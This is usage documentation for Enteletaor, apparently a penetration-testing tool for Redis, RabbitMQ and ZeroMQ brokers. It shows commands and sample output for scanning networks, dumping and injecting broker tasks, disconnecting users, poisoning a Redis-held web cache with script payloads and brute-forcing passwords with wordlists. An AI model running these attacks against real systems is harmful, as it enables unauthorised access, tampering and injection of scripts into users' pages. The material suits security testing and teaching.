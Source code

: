 Advanced usage
==============

Enteletaor implements some attacks and has many options to interact with different brokers:

    - Redis
    - RabbitMQ (of AMQP compabible)
    - ZeroMQ

The tool also implements some specifics attacks for Redis server. This document try to collect this information.

There are the 3 kind actions implemented:

    - Scanning
    - Redis actions
    - Tasks actions

Scanner
-------

Enteletaor implements a scanner that detects open brokers. The scanner is implemented in pure python, with no external dependecies, like ``nmap``.

The reason to implement a native scanner is because in ``nmap`` v7 no all scripts that detects open services works.

.. note::

    You also can pass as target a domain, not only and IP.

Custom ports
++++++++++++

As you can read in :doc:`quickstart` document, you can scan a single host or a network. Syntax is nmap-like.

You can specify other ports that enteletaor default, using ``-p`` option:

.. code-block:: bash

    # enteletaor scan -t 10.10.0.10/16 -p 5550,5551

Parallel scanning
+++++++++++++++++

By default, enteletaor runs 20 concurrent scanning. Internally it's implemented with *greenlets* threads. It means that are not "real" Python threads. You can think about greenlets thread as a lightweight version of threads.

I recommend to use 40 concurrent scanning threads. Don't worry for the overload of your system, green threads will made this possible without a hungry CPU process.

To change concurrency, we use ``-c`` option:

.. code-block:: bash

    # enteletaor scan -t 10.10.0.10/24 -c 40

Saving results
++++++++++++++

Enteletaor can export scan results as a JSON format, using ``--output`` option:

.. code-block:: bash

    # enteletaor scan -t 10.10.0.10 --output results

Or:

.. code-block:: bash

    # enteletaor scan -t 10.10.0.10 --output results.json

.. note::

    If you don't indicate the file extension, enteletaor will add it for you.

Company lookup
++++++++++++++

This is a bit strange option. Typing ``-o`` enteletaor will try to lookup the company name in RIPE and get all IP ranges registered for it, adding then to scanner.

For example, if you try to get scan ``google.com`` it will 1465 new host:

.. code-block:: bash

    # enteletaor -vvvv scan -t google.com -o

    [ * ] Starting Enteletaor execution
    [ * ]   -> Detected registered network '80.239.142.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.89.64/26'. Added for scan.
    [ * ]   -> Detected registered network '92.45.86.16/28'. Added for scan.
    [ * ]   -> Detected registered network '212.179.82.48/28'. Added for scan.
    [ * ]   -> Detected registered network '217.163.1.64/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.174.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.253.9.128/26'. Added for scan.
    [ * ]   -> Detected registered network '46.108.1.128/26'. Added for scan.
    [ * ]   -> Detected registered network '213.248.112.64/26'. Added for scan.
    [ * ]   -> Detected registered network '46.61.155.0/24'. Added for scan.
    [ * ]   -> Detected registered network '95.167.107.32/27'. Added for scan.
    [ * ]   -> Detected registered network '195.50.84.192/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.168.192/26'. Added for scan.
    [ * ]   -> Detected registered network '193.120.166.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.155.151.128/26'. Added for scan.
    [ * ]   -> Detected registered network '194.44.4.0/24'. Added for scan.
    [ * ]   -> Detected registered network '80.239.229.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.93.192/26'. Added for scan.
    [ * ]   -> Detected registered network '195.100.224.112/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.35.32/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.165.0/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.162.48/29'. Added for scan.
    [ * ]   - Number of targets to analyze: 1465
    [ * ]   - Starting scan
     ...

Tasks
-----

Currently you can do 4 sub-actions for ``tasks`` command.

All of these actions are available **only if broker is open**. An open broker means that not credential are needed for connect to.

.. note::

    But.. **what's a task?** Oks, no problem, let's see:

    When we use a process manager to handle background tasks they use an external communication system. This communication system usually is a broker.

    The processes managers need this communication systems to send the information to the runner. Each runner is waiting for new information to process, and the broker permit delegate the exchange problems.

    So, we call this in information a ``pending task``. This ``task`` is really some information waiting in the broker to be send to the runner.

Listing remote tasks
++++++++++++++++++++

Basic usage
___________

If there are pending tasks in broker queue, we can analyze them. Enteletaor allow us to list all tasks found. Although there is more than one task of each type in queue, only the task definition is displayed:

.. code-block:: bash

    # enteletaor -v tasks list-tasks -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ] Done!

We can see that broker has 2 task definition stored:

    - tasks.sum
    - tasks.send_mail

Export Template
_______________

Enteletaor also permit inject new tasks to broker (see bellow). The way to inject them is to pass as input a JSON file with the information. Write this file must be a bit hard. To help us, enteletaor can export a template.

With this template, we only must fill the appropriate fields:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 8

    # enteletaor -v tasks list-task -t 10.10.0.10 -T my_template -F tasks.send_mail
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ]   - Building template...
    [ * ]   - Template saved at: '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/my_template.json'
    [ * ] Done!

    # cat my_template.json
    [{"parameters": [{"param_position": 0, "param_value": null, "param_type": "str"}, {"param_position": 1, "param_value": null, "param_type": "str"}, {"param_position": 2, "param_value": null, "param_type": "str"}], "function": "tasks.send_mail"}]

In this example only export the function ``tasks.send_mail``.

Removing tasks
++++++++++++++

We also can remove **all** pending task from the broker queue. It's so simple:

.. code-block:: bash

    # enteletaor tasks remove -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]    - All tasks removed from '10.10.0.10'
    [ * ] Done!

Dumping tasks content
+++++++++++++++++++++

Basic usage
___________

We can dump the content of tasks simply using ``raw-dump` sub-command:

.. code-block:: bash

    # enteletaor tasks raw-dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.sum'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: 1
    [ * ]       -> P1: 0
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: marquerite@cordell.com
    [ * ]       -> P1: Can You Afford?
    [ * ]       -> P2: Axis alliance with Italy and Japan.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: willard@cordell.com
    [ * ]       -> P1: Wish What are our customers saying?
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]     -> No more messages from server. Exiting...
    [ * ] Done!

Streaming mode
______________

Some times we could want listen new messages available in broker in real time . If we use ``--streaming`` option, enteletaor will wait for new messages:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 17-20

    # enteletaor tasks raw-dump -t 10.10.0.10 --streaming
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: aletha@cordell.com
    [ * ]       -> P1: Best of Groupon: The Deals That Make Us Proud (Unlike Our Nephew, Steve) Happy Birthday Lindsay - Surprise Inside!
    [ * ]       -> P2: Berlin by Soviet and Polish troops and the refusal of Japan to surrender under its terms, the United States dropped atomic bombs on the Eastern Front, the Allied invasion of Poland by Germany and the Axis.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..

Output file
___________

We can export results to CSV file using ``--output`` option. The reason to choose this format is because it permit real-time reading. In other words:

Imagine you want to put enteletaor in streaming mode and, at the same time, put another process to read the information from export file, CSV allow this because each line is independent of others.

Enteletaor writes in CSV as *append* mode, so it will not overwriting old file content:

.. code-block:: bash
        
    # enteletaor tasks raw-dump -t 10.10.0.10 --streaming --output dumped_server_file

And, in other console, we can write:

.. code-block:: bash

    # tail -f dumped_server_file.csv

.. note::

    If not extension provided, enteletaor automatically add .csv

Inject new tasks
++++++++++++++++

Finally, enteletaor permit us to inject new tasks to the broker flow. The injection only accept one parameter: ``-f`` (``--function-file``).

This parameter need a JSON as input file with the function parameters. Do you remember `Export template`_ option of the list-tasks sub-command?

One we have the JSON file, we can inject the new process:

.. code-block:: bash

    # enteletaor tasks inject -f my_template.json
    [ * ] Starting Enteletaor execution
    [ * ]   - Building process...
    [ * ]   - Trying to connect with server...
    [ * ]   - Sending processes to '10.10.0.10'
    [ * ]       1) tasks.send_mail
    [ * ] Done!


Redis
-----

Redis is a power full and versatile server. It can act as:

  - Key-value database
  - Broker
  - Cache
  - ...

So, it has it own command and actions:

Getting info
++++++++++++

This action was explained in :doc:`quickstart` document.

Listing connected users
+++++++++++++++++++++++

This action was explained in :doc:`quickstart` document.

Disconnecting users
+++++++++++++++++++

We not only can show all connected users, also can disconnect them. To do that we can use the sub-command ``disconnect``.

Disconnect one user
___________________

This command need as input the client to disconnect. Client must be as format: IP:PORT, as ``connected`` command displays.

.. code-block:: bash
    :linenos:
    :emphasize-lines: 7,13

    # enteletaor redis connected -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Connected users to '10.10.0.10':
    [ * ]   - 10.10.0.2:52748 (DB: 0)
    [ * ]   - 10.10.0.2:52749 (DB: 0)
    [ * ]   - 10.10.0.2:52752 (DB: 0)
    [ * ]   - 127.0.0.1:42262 (DB: 0)
    [ * ]   - 10.10.0.2:51200 (DB: 0)
    [ * ] Done!

    # enteletaor redis disconnect -t 10.10.0.10 -c 127.0.0.1:42262
    [ * ] Starting Enteletaor execution
    [ * ]   - Client '127.0.0.1:42264' was disconnected
    [ * ] Done!

Disconnect all users
____________________

If you want to disconnect all connected users, enteletaor has the shortcut ``--all``:

.. code-block:: bash

    # enteletaor redis disconnect -t 10.10.0.10 --all

Discovering DBs
+++++++++++++++

By default Redis has 16 databases, but you can add as many as you need. If the database used by the remote server is different to 0 (default database) and you need to discover them, you can use ``discover-dbs``:

.. code-block:: bash

    # enteletaor redis discover-dbs -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Discovered '10.10.0.10' DBs at '16':
    [ * ]    - DB0 - 4 keys
    [ * ]    - DB1 - Empty
    [ * ]    - DB2 - Empty
    [ * ]    - DB3 - Empty
    [ * ]    - DB4 - Empty
    [ * ]    - DB5 - Empty
    [ * ]    - DB6 - Empty
    [ * ]    - DB7 - Empty
    [ * ]    - DB8 - Empty
    [ * ]    - DB9 - Empty
    [ * ]    - DB10 - Empty
    [ * ]    - DB11 - Empty
    [ * ]    - DB12 - Empty
    [ * ]    - DB13 - Empty
    [ * ]    - DB14 - Empty
    [ * ] Done!

Dumping information
+++++++++++++++++++

Basic usage
___________

One of more interesting thing is display information stored in redis and has the possibility to export it.

``dump`` sub-command permit that:

.. code-block:: bash

    # enteletaor redis dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

Exporting results
_________________

Don't worry if above console output is a bit heavy, we can export results to a JSON file using ``-e`` (``--export-results``):

.. code-block:: bash

    # enteletaor redis dump -t 10.10.0.10 -e dumped_info
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

.. note::

    We don't need to put the extension .json to file. If extension is missing, enteletaor will add it.

Hide screen output
__________________

If you don't want to display information into screen (useful when Redis contains a lot of information) using ``--no-screen`` option:

.. code-block:: bash

    # enteletaor redis dump -t 10.10.0.10 -e dumped_info --no-screen
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ] Done!

Handling cache
++++++++++++++

Redis is commonly used as a centralized cache system. We can handle this cache stored in it.

Finding cache keys
__________________

First step is find possible cache keys in Redis. Enteletaor has the option ``--search`` that will try to find this keys:

.. code-block:: bash

    # enteletaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Looking for caches in '10.10.0.10'...
    [ * ]   - Possible cache found in key: 'flask_cache_view//'
    [ * ] Done!

Dumping all cache keys
______________________

If we want to dump, as raw-way, possible cache keys (not only locate) we omit the option ``--search``:

.. code-block:: bash

    # enteletaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'flask_cache_view//'
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Dumping specific cache key
__________________________

We can dump only an specific key:

.. code-block:: bash

    # enteletaor redis cache -t 10.10.0.10 --cache-key "flask_cache_view//"
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'flask_cache_view//'
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Basic cache poisoning
_____________________

Enteletaor permit us to poison the cache. To enable the cache poisoning we need to enable it with option ``-P``.

By default, enteletaor will try to inject an HTML <script> tag with an alert message: "You are vulnerable to broker injection".

.. code-block:: bash
        
    # enteletaor redis cache -P -t 10.10.0.1
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!

Custom cache poisoning with
___________________________

We can replace the default behavior adding a custom script code:

**Inline**:

Using ``--payload`` option. This option need a file with the script:

.. code-block:: bash

    # enteletaor redis cache -P -t 10.10.0.10 --payload "<script>document.write('Say cheeeeers')</script>"
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

**Using file**:

.. code-block:: bash

    # echo "<script>document.write('Say cheeeeers')</script>" > my_payload.txt
    # enteletaor redis cache -P -t 10.10.0.10 --file-payload my_payload.txt
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

Replace cache content
_____________________

Finally, we can replace entire content of cache key using option ``--replace-html``:

.. code-block:: bash

    # echo "<html><head><title>Replaced content</title></head><body><h1>Say cheeeeers again :)</h1></body></html>" > new_html.html
    # enteletaor redis cache -P -t 10.10.0.10 --replace-html new_html.html
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!


Password brute forcer
---------------------

Listing wordlist
++++++++++++++++

Enteletaor has some wordlist embedded. If you want to show them, you must write:

.. code-block:: bash

    # enteletaor brute wordlist
    [ * ] Starting Enteletaor execution
    [ * ]   - Available wordlists:
    [ * ]     > 10_million_password_list_top_100
    [ * ]     > 10_million_password_list_top_1000
    [ * ]     > 10_million_password_list_top_10000
    [ * ]     > 10_million_password_list_top_100000
    [ * ] Done!

The wordlist names could be used as input for the password module.

Discovering passwords
+++++++++++++++++++++

We can try to discover remote passwords using enteletaor. To do this, we need a wordlist with passwords that we want to test. If we don't have any wordlist we can use one of embedded.

Basic usage
___________

Using default options, enteletaor se the wordlist ``10_million_password_list_top_1000``.

.. code-block:: bash

    # enteletaor brute password -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Detected 'Redis' server with 'auth'.
    [ * ]   - Starting bruteforcer using wordlist : '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/resources/wordlist/10_million_password_list_top_1000.txt'
    [ * ] Done!

.. note::

    We also can set remote server port using option ``-p``.
    
Specifying wordlist
___________________

We can set an external wordlist, with the option ``-w``.

.. code-block:: bash
        
    # enteletaor brute password -t 10.10.0.10 -w /home/user/my_wordlist.txt

Or use a different embedded:

.. code-block:: bash

    # enteletaor brute password -t 10.10.0.10 -w 10_million_password_list_top_100000

Setting concurrency
___________________

We also can specify the number os concurrent test we want to do, using option ``-c``.

.. code-block:: bash

    # enteletaor brute password -t 10.10.0.10 -w 10_million_password_list_top_100000 -c 20

Setting remote user
___________________

Currently enteletaor doesn't support brute forcer for users, so for servers that need user/password we must set the **user**, using option ``-u``:

.. code-block:: bash

    # enteletaor brute password -t 10.10.0.10 -p 5672 -u admin
    [ * ] Starting Enteletaor execution
    [ * ]   - Detected 'RabbitMQ' server with 'auth'.
    [ * ]   - Set user to 'admin'
    [ * ]   - Starting bruteforcer using wordlist : '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/resources/wordlist/10_million_password_list_top_1000.txt'
    [ * ] Done!
